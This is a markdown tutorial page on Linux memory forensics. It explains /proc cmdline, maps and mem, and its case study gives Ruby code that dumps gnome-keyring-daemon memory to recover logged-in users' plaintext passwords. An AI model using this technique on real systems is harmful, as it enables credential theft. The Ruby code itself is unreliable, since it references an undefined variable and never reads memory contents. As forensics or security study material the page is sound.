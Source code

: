 # Memory Forensic 



## Linux memory

### Dump Linux memory

To dump Linux memory for a specific process to disk, we need the follwoing: 

1. **Get process id \(PID\):** `/proc/\[PID\]/cmdline`
   - _cmdline_ is file holds the complete command line for the process.
2. **Get PID maps:** `/proc/\[PID\]/maps`
   - _maps_ is file containing the currently mapped memory regions and their access permissions.
3. **Get processs memory pages:** `/proc/\[PID\]/mem`
   - _mem_ is a file can be used to access the pages of a process's memory through

#### Case study
Let's assume we want to dump `gnome-keyring-daemon` process's memory to our disk in order to extract the logged-in user(s) password(s) since its stored in as a plan text in memory. Moreover, we know that it comes after "libgck-1" or "libgcrypt" strings in memory. We'll brack that a parts then put it together.

**Get process id \(PID\)**

```ruby
@pids = []
Dir.glob('/proc/*/cmdline').each do |cmdline_file|
  processes_name.each do |process|
    if File.read(cmdline_file).include? "gnome-keyring-daemon"
      @pids << cmdline_file.split('/')[2].to_i  # get the pid number from proc/nnn/cmdline
    end
  end
end
```

**Get PID maps:**

```ruby
@pids_maps = []
@pids.each do |pid|
  # Open and parse maps file for each pid
  File.readlines("/proc/#{pid}/maps").each do |line|
    address, permissions = line.split(' ').first(2)
    # Find addresses in readable process memory pages
    if permissions.match(/^r.*/)
      # Find where pages starts and ends to read, no need to dump the whole memory.
      memory_start, memory_stop = address.split('-').map{|r| r.to_i(16)}
      chunk_size = memory_stop - memory_start
      @pids_maps << {pid: pid, memory_start: memory_start, memory_stop: memory_stop, chunk: chunk_size}
    end
  end
end
```

**Get processs memory pages:**

```ruby
memory_dump = ''

@pids_maps.each do |pid|
  chunk_pointer = File.open("/proc/#{pid[:pid]}/mem", 'rb')   # Open mem file
  chunk_pointer.seek  pid[:memory_start]                      # put reading pointer where page starts
  memory_dump << chunk_pointer
end

File.open('gnome-keyring.dump', 'wb') {|f| f.print memory_dump}
```








